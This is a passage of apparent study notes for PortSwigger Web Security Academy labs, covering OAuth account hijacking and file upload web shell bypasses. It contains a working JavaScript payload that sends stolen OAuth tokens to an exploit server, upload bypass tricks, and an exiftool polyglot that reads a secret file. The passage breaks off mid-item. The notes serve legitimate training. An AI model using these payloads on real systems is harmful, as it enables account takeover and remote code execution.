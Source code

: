 ```
Intercept the whole process of OAuth authentication and observe /oauth-linking request with code. This request is without state parameter, so Generate CSRF PoC and drop the request. Send it to victim and login via OAuth.  
3. OAuth account hijacking via redirect_uri  
Intercept the whole process of OAuth authentication and observe `/auth?client_id=xxx&redirect_uri=xxx&response_type=xxx&scope=xxx`, change `redirect_uri` to your collaborator server and Generate CSRF PoC, drop the request. Send it to victim and find out his `/oauth-callback?code`.  
4. Stealing OAuth access tokens via an open redirect  
Same as the previous one observe `/auth?client_id=xxx&redirect_uri=xxx&response_type=xxx&scope=xxx`.  
On home page open any post and at the bottom observe "Next post" button. It is open redirect.  
Write the next URL:
```
. . . redirect_uri=https://xxx.web-security-academy.net/oauth-callback/../../post/next?path=https://exploit-xxx.exploit-server.net/exploit/ . . .
```
This will redirect us to our exploit server and send us oauth code as fragment identifier, so we need to extract this value using JS  
Final payload:
```
<script>
    if (!document.location.hash) {
        window.location = "https://oauth-xxx.web-security-academy.net/auth?client_id=np1l4fiaizdo4d6r09enk&redirect_uri=https://xxx.web-security-academy.net/oauth-callback/../../post/next?path=https://exploit-xxx.exploit-server.net/exploit/&response_type=token&nonce=-2091701200&scope=openid%20profile%20email"
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```
## File upload vulnerabilities
Arises at My-account Avatar upload
### Exploits
1. Web shell upload via Content-Type restriction bypass  
Change Content-Type to image/jpeg  
2. Web shell upload via path traversal  
Create web shell with directory traversal in filename (../) and URL encode it (%2e%2e%2f)  
Now you can get your file with /files/avatars/../rce2.php  
3. Web shell upload via extension blacklist bypass  
.php is blacklisted, but you can set .phar extension  
Also here be "correct" method using .htaccess method:
```
1. Change filename to .htaccess
2. Change Content-Type to `text/plain`
3. Replace file contents with
AddType application/x-httpd-php .l33t
4. Upload shell with .l33t extension
```
4. Web shell upload via obfuscated file extension
```
Null byte bypass rce.php%00.jpg
```
5. Remote code execution via polyglot web shell upload  
Polyglot PHP/JPG file is an standard Image but with PHP code in metadata.  
```
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" lel.jpg -o polyglot.php
```
6. Admin Panel RFI  
RFI function on target allow the upload of image from remote HTTPS URL source and perform to validation checks, the source URL must be HTTPS and the file extension is checked  
Incorrect RFI result in response message, File must be either a jpg or png.  
To exploit this vulnerability, paste php payload in body section of your exploit server and name it shell.php:  
```